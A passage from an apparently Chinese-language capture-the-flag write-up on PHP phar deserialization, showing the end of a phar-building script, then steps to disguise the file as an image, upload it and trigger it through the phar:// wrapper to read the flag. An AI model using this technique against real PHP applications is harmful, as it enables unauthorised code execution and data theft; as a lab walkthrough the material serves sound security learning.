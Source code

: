 ```
$phar->setMetadata($c); //触发的头是C1e4r类，所以传入C1e4r对象
$phar->addFromString("exp.txt", "test"); //随便写点什么生成个签名
$phar->stopBuffering();

?>


```

得到生成的phar文件，就要进行文件上传

但由于只能上传gif，jpeg，jpg，png结尾的文件，我们更改后缀再上传

然后访问upload找到我们上传文件得文件名

![image-20240612213933700](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406122139905.png)

用phar协议访问，得到flag的base64，解码得到flag

![image-20240612214211855](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406122142026.png)
